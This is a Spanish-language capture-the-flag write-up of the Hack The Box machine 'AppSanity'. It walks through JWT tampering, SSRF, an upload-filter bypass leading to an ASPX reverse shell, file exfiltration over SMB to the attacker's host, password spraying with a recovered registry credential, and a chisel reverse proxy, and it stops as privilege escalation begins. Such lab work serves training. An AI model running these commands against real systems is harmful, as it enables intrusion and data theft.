

+++
author = "Andrés Del Cerro"
title = "Hack The Box: AppSanity Writeup | Hard"
date = "2024-09-12"
description = ""
tags = [
    "HackTheBox",
    "AppSanity",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows"
    "HTTPS Enumeration",
    "SSL Certificate Examination",
    "JWT Analysis",
    "Abusing Broken Access Control",
    "Virtual Hosting Fuzzing",
    "Abusing JWT Reuse",
    "Server-Side Request Forgery",
    "Internal Services Enumeration",
    "Bypassing Upload Filter",
    "Magic Numbers",
    "Cracking NTLMv2",
    "Decompiling .NET",
    "DotPeek",
    "Information Disclosure",
    "User Pivoting",
    "Reverse Proxy",
    "Chisel",
    "Reversing Executable",
    "GHidra",
    "DLL Hijacking"
]

+++

# Hack The Box: AppSanity Writeup

Welcome to my detailed writeup of the hard difficulty machine **"AppSanity"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.196.198 --ulimit 5000 -g
10.129.196.198 -> [80,443,5985]
```

```console
$ nmap -p80,443,5985 -sCV 10.129.196.198 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 17:44 CEST
Nmap scan report for 10.129.196.198
Host is up (0.12s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to https://meddigi.htb/
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  https?
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.89 seconds

```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 10.129.196.198 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 17:46 CEST
Nmap scan report for 10.129.196.198
Host is up.
All 1500 scanned ports on 10.129.196.198 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 2.38 seconds
```

Del escaneo inicial encontramos el dominio `meddigi.htb`, lo añadimos al `/etc/hosts`

## Analizing SSL Certificate
Vemos que está abierto el puerto 443.
Podemos analizar el certificado SSL con `openssl` de la siguiente manera.

```console
$ openssl s_client -showcerts -connect meddigi.htb:443
```

No encontramos nada relevante.
# HTTP/S Enumeration
Vamos a empezar enumerando el sitio web.
Con `whatweb` Podemos ver que ocurre una redirección al servicio HTTPS y encontramos un usuario `support` que no creo que sea relevante, y también podemos ver que el servidor web es un IIS y se está utilizando ASP.NET por detrás.

```console
$ whatweb http://meddigi.htb
http://meddigi.htb [302 Found] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.196.198], Microsoft-IIS[10.0], RedirectLocation[https://meddigi.htb/], Title[Document Moved]
https://meddigi.htb/ [200 OK] Bootstrap, Cookies[.AspNetCore.Mvc.CookieTempDataProvider], Country[RESERVED][ZZ], Email[support@meddigi.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], HttpOnly[.AspNetCore.Mvc.CookieTempDataProvider], IP[10.129.196.198], JQuery, Microsoft-IIS[10.0], Script, Strict-Transport-Security[max-age=2592000], Title[MedDigi]
```

Así se ve el sitio web.


Encontramos un formulario de contacto que parece que es funcional.


También bajo `/signin` encontramos un formulario de inicio de sesión.


Bajo `signup` podemos crearnos una cuenta.


Nos podemos crear una cuenta perfectamente.


Parece que podemos enviar un mensaje a nuestros doctores asignados pero no tenemos ninguno.


## JWT Analysis

Podemos analizar nuestro token JWT, vemos dos cosas interesantes. Uno el campo `unique_name` cuyo valor es "7", quiero pensar que esto es un campo que se refiere a nuestro ID de usuario, por lo cual podemos suponer que existen otros 6 usuarios mas.


Y otra cosa interesante es el campo `aud` cuyo valor parece que se refiere a un rol llamado`MedDigiUser`.

Quizás exista `MedDigiAdmin` u otros roles.

## Abusing Broken Access Control
Al capturar la petición de registro de usuario con `burpsuite` encontramos lo siguiente.


Parece que `Acctype` se refiere a `Account Type`, es decir, el tipo de cuenta.

Si intentamos cambiar este valor a 0 da un error de registro, pero si lo cambiamos a 2...


Parece que podemos crearnos una cuenta como Doctor.

Podemos añadir a un paciente para supervisarlo.


En la cuenta de usuario se ve así..


Si mandamos el mensaje no nos llega ninguna notificación, así que supongo que se mandará a otra parte que todavía no he descubierto.

## VHost Fuzzing
Fuzzeando subdominios con `wfuzz` encontramos uno.
```console
$ wfuzz --hh=315 -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.t
xt -H 'Host: FUZZ.meddigi.htb' https://meddigi.htb
....
=====================================================================
ID           Response   Lines    Word       Chars       Payload                  
=====================================================================

000000048:   200        56 L     162 W      2976 Ch     "portal"
```

Lo añadimos al `/etc/hosts`

Parece que es un panel de autenticación pero en vez de contraseña me pide un número de referencia.


## JWT Reuse

Después de un rato, probé a reutilizar el token JWT de la `https://meddigi.htb/Profile` de mi cuenta de Doctor en este panel.


Y al refrescar podemos ver que funiona.


## Exploring `portal.meddigi.htb`

Vemos varias características de este portal, una de ellas es poder reservar fecha para examinar a un paciente supongo.


Podemos ver otra funcionalidad para realizar prescripciones de medicamentos, se realiza una comprobación donde no se pueden utilizar caracteres especiales.

La comprobación se hace en el lado del servidor.


También podemos ver las prescripciones pero no encontramos nada interesante.


Y tenemos una cosa interesante. Podemos listar el contenido de un sitio web, en este caso, de mi máquina utilizando el módulo `http.server` de `python`


## Server-Side Request Forgery
Podemos probar a realizar un Server-Side Request Forgery y parece que podemos apuntar a recursos internos del sistema.


Rápidamente me doy cuenta que ponga lo que ponga me lleva a esa página, por lo cual tiene pinta de que a lo mejor no se acontece el SSRF.


## Keep Enumerating
Encontramos un formulario para solicitar equipamiento, quizás podamos insertar un código Javascript malicioso (XSS) algún departamento en específico.


Encontramos otro formulario para subir un reporte de un paciente.


Solo se permiten subir documentos PDF.


Parece que este formulario se envía a algún manager.


## Server-Side Request Forgery (again)
Investigando el supuesto SSRF de antes, encontré que si nos dirigimos a un sitio que no existe parece que internamente se hace una redirección.


Se nos redirecciona a `/Error`


Y este sitio me redirecciona otra vez a la página principal, ahora tiene sentido que ponga lo que ponga, si no existe, nos va a redireccionar al panel principal de doctor.


Sin embargo cuando el recurso existe me responde con un 200 OK.


Por lo cual, con el Intruder de `burpsuite` podemos realizar un "fuzzeo" para descubrir puertos internos.


Utilizando HTTP encontramos abierto el puerto 8080.


Aunque nos reporta que el `hostname` no es válido.


Utilizando la dirección de loopack vemos un recurso interno.


Podemos intentar subir un recurso utilizando el formulario de reportes anteriormente encontrado.


Y vemos una cosa interesante, y es el link del recurso PDF que he subido.

Si intentamos cargar el PDF a través del navegador se nos redirecciona al panel principal, pero podemos ver el PDF a través del SSRF.


## Bypassing File Upload Filter + SSRF -> Foothold
Algo que se me ocurre es, ya que el PDF se nos reporta en "texto plano" es intentar subir un PDF modificado con algo de código ASPX para ver si se interpreta.

Después de estar un rato, conseguí subir el PDF modificado pero utilizando los magic numbers de PDF.


Y aquí tenemos el PDF modificado, ahora vamos a intentar insertar texto.


Y al insertar un snippet ASP.NET vemos que el SSTI no ocurre.


Podemos intentar con estos magic number subir el archivo ASPX para mantener la extensión y entonces que sea interpretado por el servidor.

Este es el archivo de prueba para intentar mostrar la fecha actual, esto solo lo quiero hacer para comprobar que conseguimos que se interprete el código.
```aspx
<%@ Page Language="C#" %>

<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml">
<head runat="server">
    <title>Mostrar Fecha Actual</title>
</head>
<body>
    <form id="form1" runat="server">
        <div>
            La fecha y hora actual es: 
            <% 
                // Mostrar la fecha y hora actual directamente en el ASPX
                Response.Write(DateTime.Now.ToString("dd/MM/yyyy HH:mm:ss")); 
            %>
        </div>
    </form>
</body>
</html>
```

Cambiamos la extensión...


Y a parte de ver que el archivo mantiene la extensión ASPX, vemos que se interpreta el código y me muestra la fecha.


Sabiendo esto, podemos buscar una revshell en Google, la primera que vemos..


Cambiamos el host y el puerto de a donde queremos mandar la shell.


Y ahora si cargamos el archivo.


Y estamos en escucha con `netcat` por el puerto 443 conseguimos una consola como el usuario `svc_exampanel`.

```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.104] from (UNKNOWN) [10.129.196.198] 52610
Spawn Shell...
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
appsanity\svc_exampanel
```

Podemos ver la flag del usuario.
```console
C:\Users\svc_exampanel\Desktop>type user.txt
type user.txt
11e36d712177...
```

## User Pivoting

Podemos ver otros usuarios en el sistema como `svc_meddigiportal`, `devdoc` y `svc_meddigi`
```console
User accounts for \\APPSANITY

-------------------------------------------------------------------------------
Administrator            DefaultAccount           devdoc                   
Guest                    svc_exampanel            svc_meddigi              
svc_meddigiportal        WDAGUtilityAccount       
The command completed successfully.

```

## Analyzing SQLite Databases (nothing)
En `C:\inetpub\Databases` encontramos un archivo `meddigi.db` y `examinfo.db`, podemos compartirnos estos ficheros en nuestra máquina para analizarlos.
```console
C:\inetpub\Databases>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F854-971D

 Directory of C:\inetpub\Databases

09/12/2024  08:47 AM    <DIR>          .
09/12/2024  08:47 AM    <DIR>          ..
09/12/2024  08:47 AM            20,480 examinfo.db
09/24/2023  01:21 PM            32,768 meddigi.db
09/12/2024  08:35 AM            32,768 meddigi.db-shm
09/12/2024  08:35 AM                 0 meddigi.db-wal
               4 File(s)         86,016 bytes
               2 Dir(s)   3,961,602,048 bytes free

```

Podemos hacer esto sirviendo un servidor SMB.
```console
$ sudo impacket-smbserver -smb2support smbFolder .
```

Podemos comprobar que los dos archivos son bases de datos SQLite.
```console
$ file examinfo.db && file meddigi.db
examinfo.db: SQLite 3.x database, last written using SQLite version 3040001, writer version 2, read version 2, file counter 2, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 2
meddigi.db: SQLite 3.x database, last written using SQLite version 3040001, writer version 2, read version 2, file counter 2, database pages 8, cookie 0x5, schema 4, UTF-8, version-valid-for 2
```

Y ahora nos podemos copiar los ficheros a nuestra máquina.
```console
C:\inetpub\Databases>copy examinfo.db \\10.10.14.104\smbFolder\examinfo.db
copy examinfo.db \\10.10.14.104\smbFolder\examinfo.db
        1 file(s) copied.

C:\inetpub\Databases>copy meddigi.db \\10.10.14.104\smbFolder\meddigi.db
copy meddigi.db \\10.10.14.104\smbFolder\meddigi.db
        1 file(s) copied.
```

En `meddigi.db` no encontramos ningún usuario y ningún hash.
```console
sqlite> .tables
Prescriptions          Users                
Supervisings           __EFMigrationsHistory
sqlite> select * from Users;
5|test|test|test@test.test|AQAAAAEAACcQAAAAEJ1m+P+bFJCdZQbHOnRvldPNLZpFzOpPU4zxJg5uKTG32F+gCQ83b13abR2rdWInBA==|2023-09-25 00:00:00|1111111111|aaa|2

```

Tampoco encontramos nada relevante de `examinfo.db`
```console
sqlite> select * from Examinations
   ...> ;
15|DJKgKK+DHythmQCyVqr4Dg==|tvuiIEVoaY6SiEIZoosODQ==|g2lnzIdm1t2bvLettMyCiQ==|rnhF1fXLeJSFWrTzhIWCeg==|rNy6SUd1FtDf5RFjxgvu/Q==|2023-11-09 00:00:00|eefeccb8-4c86-45b4-a38d-81754324a11b_Cardiology_Report_1.pdf
```

## Cracking NTLMv2 hash (failed)
Como somos dueños del servicio del este panel, podemos acceder a sus ficheros y hurgar un poco bajo la ruta `C:\inetpub\ExaminationPanel\ExaminationPanel`

Antes de eso, podemos intentar crackear el hash NTLMv2 con `john`.


Pero no conseguimos nada.
```console
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 DONE (2024-09-12 19:57) 0g/s 2008Kp/s 2008Kc/s 2008KC/s !)(OPPQR..*7¡Vamos!
Session completed.
```

## Decompiling .NET DLL + Retrieving Registry Key
En el fichero `bin` encontramos los archivos del servicio web.
```console
C:\inetpub\ExaminationPanel\ExaminationPanel\bin>dir                                           19:58:42 [0/2706]
dir                                                                                       
 Volume in drive C has no label.        
 Volume Serial Number is F854-971D       
                                                                                          
 Directory of C:\inetpub\ExaminationPanel\ExaminationPanel\bin      
                                                                                          
09/26/2023  07:30 AM    <DIR>          .                                                  
09/26/2023  07:30 AM    <DIR>          ..               
09/24/2023  08:46 AM         4,991,352 EntityFramework.dll
09/24/2023  08:46 AM           591,752 EntityFramework.SqlServer.dll
09/24/2023  08:46 AM            13,824 ExaminationManagement.dll 
09/24/2023  08:46 AM            40,168 Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll
09/24/2023  08:49 AM    <DIR>          roslyn                                                                   
09/24/2023  08:46 AM           431,792 System.Data.SQLite.dll                                                   
09/24/2023  08:46 AM           206,512 System.Data.SQLite.EF6.dll
09/24/2023  08:46 AM           206,520 System.Data.SQLite.Linq.dll
09/24/2023  08:49 AM    <DIR>          x64              
09/24/2023  08:49 AM    <DIR>          x86              
               7 File(s)      6,481,920 bytes                                                                   
               5 Dir(s)   3,961,618,432 bytes free                                                              


```

El único DLL que me llama la atención es `ExaminationManagement.dll` ya que los demás son drivers de SQLServer y SQLite.

Nos copiamos el archivo.
```console
:\inetpub\ExaminationPanel\ExaminationPanel\bin>copy ExaminationManagement.dll \\10.10.14.104\smbFolder\ExaminationManagement.dll
copy ExaminationManagement.dll \\10.10.14.104\smbFolder\ExaminationManagement.dll
        1 file(s) copied.
```

Ahora vamos a descompilarlo con `dotpeek`.

nos vamos a copiar el DLL a nuestra máquina anfitriona (solo si utilizamos máquina virtual)


Encontramos una función llamada `RetrieveEncryptionKeyFromRegistry()`
```C#
private string RetrieveEncryptionKeyFromRegistry()
    {
      try
      {
        using (RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("Software\\MedDigi"))
        {
          if (registryKey == null)
          {
            ErrorLogger.LogError("Registry Key Not Found");
            this.Response.Redirect("Error.aspx?message=error+occurred");
            return (string) null;
          }
          object obj = registryKey.GetValue("EncKey");
          if (obj != null)
            return obj.ToString();
          ErrorLogger.LogError("Encryption Key Not Found in Registry");
          this.Response.Redirect("Error.aspx?message=error+occurred");
          return (string) null;
        }
      }
      catch (Exception ex)
      {
        ErrorLogger.LogError("Error Retrieving Encryption Key", ex);
        this.Response.Redirect("Error.aspx?message=error+occurred");
        return (string) null;
      }
    }
```

Donde recupera una clave de registro en `Software\\MedDigi` para utilizar como clave para encriptar/desencriptar los reportes de los pacientes.

Podemos recuperar esta clave de encriptación y vemos una credencial.
```console
C:\inetpub\ExaminationPanel\ExaminationPanel\bin>reg query HKLM\Software\MedDigi

reg query HKLM\Software\MedDigi

HKEY_LOCAL_MACHINE\Software\MedDigi
    EncKey    REG_SZ    1g0tTh3R3m3dy!!

```

Para probar esta credencial podemos utilizarla con `nxc` contra todos los usuarios ya que está el puerto 5985/TCP abierto.

```
$ nxc winrm 10.129.196.198 -u users.txt -p '1g0tTh3R3m3dy!!' --continue-on-success
WINRM       10.129.196.198  5985   APPSANITY        [*] Windows 10 / Server 2019 Build 19041 (name:APPSANITY) (domain:Appsanity)
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\ianc:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\johnd:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\marym:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\sarahh:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\svc_exampanel:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\svc_meddigiportal:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [+] Appsanity\devdoc:1g0tTh3R3m3dy!! (Pwn3d!)
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\svc_meddigi:1g0tTh3R3m3dy!!
```

Y encontramos que la credencial es válida para el usuario `devdoc`.

Ahora con `evil-winrm` podemos conseguir una consola como `devdoc`
```console
$ evil-winrm -i 10.129.196.198 -u 'devdoc' -p '1g0tTh3R3m3dy!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\devdoc\Documents> whoami
appsanity\devdoc
```

# Privilege Escalation

`devdoc` no tiene ningún privilegio interesante.
```console
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled
```

Tampoco pertenece a ningún grupo especial.
```console
GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

Enumerando los archivos del sistema encontramos el directorio `ReportManagement`, me llama la atención ya que parece un programa personalizado.
```console
*Evil-WinRM* PS C:\Program Files> dir                                                    
                                                                                          
                                                                                          
    Directory: C:\Program Files                                                           
                                                                                          
                                                                                          
Mode                 LastWriteTime         Length Name                         
----                 -------------         ------ ----                 
d-----         9/15/2023   7:36 AM                Common Files                                                  
d-----         9/15/2023   8:16 AM                dotnet          
d-----         9/15/2023   8:16 AM                IIS                                     
d-----        10/23/2023  12:17 PM                Internet Explorer                                             
d-----         9/17/2023   3:23 AM                Microsoft Update Health Tools                                                         
d-----         12/7/2019   1:14 AM                ModifiableWindowsApps      
d-----        10/20/2023  12:42 PM                ReportManagement                                              
d-----        10/23/2023   4:59 PM                RUXIM                                                         
d-----         9/15/2023   7:36 AM                VMware                                                                                
d-----        10/23/2023  12:17 PM                Windows Defender                                                                      
d-----        10/23/2023  12:17 PM                Windows Defender Advanced Threat Protection                                           
d-----        10/23/2023  12:17 PM                Windows Mail                                                                          
d-----         12/7/2019   1:54 AM                Windows Multimedia Platform                                                                                 
d-----         12/7/2019   1:50 AM                Windows NT                                                                                                  
d-----        10/23/2023  12:17 PM                Windows Photo Viewer                                                                                        
d-----         12/7/2019   1:54 AM                Windows Portable Devices                                                                                    
d-----         12/7/2019   1:31 AM                Windows Security                                                                                            
d-----         12/7/2019   1:31 AM                WindowsPowerShell     
```

Encontramos varios archivos DLL.
```console
*Evil-WinRM* PS C:\Program Files\ReportManagement> dir


    Directory: C:\Program Files\ReportManagement


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/23/2023  11:33 AM                Libraries
-a----          5/5/2023   5:21 AM          34152 cryptbase.dll
-a----          5/5/2023   5:21 AM          83744 cryptsp.dll
-a----         3/11/2021   9:22 AM         564112 msvcp140.dll
-a----         9/17/2023   3:54 AM         140512 profapi.dll
-a----        10/20/2023   2:56 PM         102912 ReportManagement.exe
-a----        10/20/2023   1:47 PM       11492864 ReportManagementHelper.exe
-a----         3/11/2021   9:22 AM          96144 vcruntime140.dll
-a----         3/11/2021   9:22 AM          36752 vcruntime140_1.dll
-a----          5/5/2023   5:21 AM         179248 wldp.dll
```

No tenemos permiso de escritura en este directorio.
```console
*Evil-WinRM* PS C:\Program Files\ReportManagement> icacls .
. CREATOR OWNER:(OI)(CI)(IO)(F)
  NT AUTHORITY\SYSTEM:(OI)(CI)(F)
  BUILTIN\Administrators:(OI)(CI)(F)
  BUILTIN\Users:(OI)(CI)(R)
  APPSANITY\devdoc:(RX)
  NT SERVICE\TrustedInstaller:(CI)(F)
  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(RX)
  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Pero es muy interesante ya que tenemos permisos de escritura en el directorio `Libraries`
```console
*Evil-WinRM* PS C:\Program Files\ReportManagement> icacls Libraries
Libraries APPSANITY\devdoc:(OI)(CI)(RX,W)
          BUILTIN\Administrators:(I)(F)
          CREATOR OWNER:(I)(OI)(CI)(IO)(F)
          NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
          BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
          BUILTIN\Users:(I)(OI)(CI)(R)
          NT SERVICE\TrustedInstaller:(I)(CI)(F)
          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(RX)
          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Podemos acceder al ejecutable `ReportManagement.exe` pero no al `ReportManagementHelper.exe`
```console
*Evil-WinRM* PS C:\Program Files\ReportManagement> icacls ReportManagement.exe
ReportManagement.exe APPSANITY\devdoc:(DENY)(W,X)
                     NT AUTHORITY\SYSTEM:(F)
                     BUILTIN\Administrators:(F)
                     APPSANITY\devdoc:(R)

Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Program Files\ReportManagement> icacls ReportManagementHelper.exe
icacls.exe : ReportManagementHelper.exe: Access is denied.
    + CategoryInfo          : NotSpecified: (ReportManagemen...cess is denied.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
Successfully processed 0 files; Failed processing 1 files
```

Podemos con `Get-Process` detectar que existe un proceso con el nombre de este programa.

Por lo cual seguramente exista algún puerto (o no) con el cual interactúe este proceso.

## Reverse Proxy with `chisel`
Encontramos varios puertos abiertos.
```console
*Evil-WinRM* PS C:\Program Files\ReportManagement> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:100            0.0.0.0:0              LISTENING       5316
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       912
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5468
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       692
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       548
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1076
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1676
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       672
  TCP    10.129.196.198:139     0.0.0.0:0              LISTENING       4
  TCP    10.129.196.198:5985    10.10.14.104:35274     TIME_WAIT       0
  TCP    10.129.196.198:5985    10.10.14.104:40406     TIME_WAIT       0
  TCP    10.129.196.198:5985    10.10.14.104:52898     TIME_WAIT       0
  TCP    10.129.196.198:5985    10.10.14.104:52902     ESTABLISHED     4
  TCP    10.129.196.198:5985    10.10.14.104:57648     TIME_WAIT       0
  TCP    10.129.196.198:52610   10.10.14.104:443       ESTABLISHED     5396
```

Me llaman la atención varios puertos, así que con `chisel` vamos a hacer un Proxy Inverso para poder interactuar con estos puertos internos.

Con la función interna `upload` de `evil-winrm` podemos subir el `chisel.exe`.

```console
*Evil-WinRM* PS C:\ProgramData> upload ../content/chisel.exe
                                        
Info: Uploading /home/pointedsec/Desktop/appsanity/scan/../content/chisel.exe to C:\ProgramData\chisel.exe
                                        
Data: 12008104 bytes of 12008104 bytes copied
                                        
Info: Upload successful!
```

En nuestra máquina de atacante nos ponemos en escucha por el puerto 1234.
```console
$ /opt/chisel/chisel server --reverse -p 1234
2024/09/12 20:23:26 server: Reverse tunnelling enabled
2024/09/12 20:23:26 server: Fingerprint Yjkz8ovZI0npCqsGaxv/qqBTSfCJckb+wWqdaLxUHUQ=
2024/09/12 20:23:26 server: Listening on http://0.0.0.0:1234
```

Ahora en la máquina víctima podemos compartirnos en forma de proxy de tipo socks los puertos de la máquina víctima.
```console
*Evil-WinRM* PS C:\ProgramData> .\chisel.exe client 10.10.14.104:1234 R:socks
chisel.exe : 2024/09/12 09:24:49 client: Connecting to ws://10.10.14.104:1234
    + CategoryInfo          : NotSpecified: (2024/09/12 09:2....10.14.104:1234:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2024/09/12 09:24:49 client: Connected (Latency 35.9469ms)
```

En el archivo `/etc/proxychains.conf` podemos configurar como proxy el puerto 1080 de nuestra máquina local.


Ahora para hacer una prueba, podemos utilizar `netexec` para comprobar el usuario que teníamos pero a través del SMB que recordemos que estaba cerrado.

> [!NOTE]
> Recordar que ahora nuestra IP víctima es la dirección de loopback, ya que con `proxychains` los paquetes pasan a la máquina víctima a través del proxy y una vez están allí, como nos queremos dirigir a la misma máquina víctima podemos hacer esto con la dirección de loopback.

```console
$ proxychains nxc smb 127.0.0.1 -u users.txt -p '1g0tTh3R3m3dy!!' --continue-on-success 2>/dev/null
ProxyChains-3.1 (http://proxychains.sf.net)
SMB         127.0.0.1       445    APPSANITY        [*] Windows 10 / Server 2019 Build 19041 x64 (name:APPSANITY) (domain:Appsanity) (signing:False) (SMBv1:False)
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\ianc:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\johnd:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\marym:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\sarahh:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\svc_exampanel:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\svc_meddigiportal:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
SMB         127.0.0.1       445    APPSANITY        [+] Appsanity\devdoc:1g0tTh3R3m3dy!! 
SMB         127.0.0.1       445    APPSANITY        [-] Appsanity\svc_meddigi:1g0tTh3R3m3dy!! STATUS_LOGON_FAILURE 
```

Y vemos que funciona.

Ahora si intentamos interactuar con el puerto 100.

¡Bingo!
```console
$ proxychains nc 127.0.0.1 100
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:100-<><>-OK
Reports Management administrative console. Type "help" to view available commands.
```

Parece que es una consola administrativa que corresponde con el programa que habíamos encontrado.

Podemos ver varios comandos.
```console
help
Available Commands:
backup: Perform a backup operation.
validate: Validates if any report has been altered since the last backup.
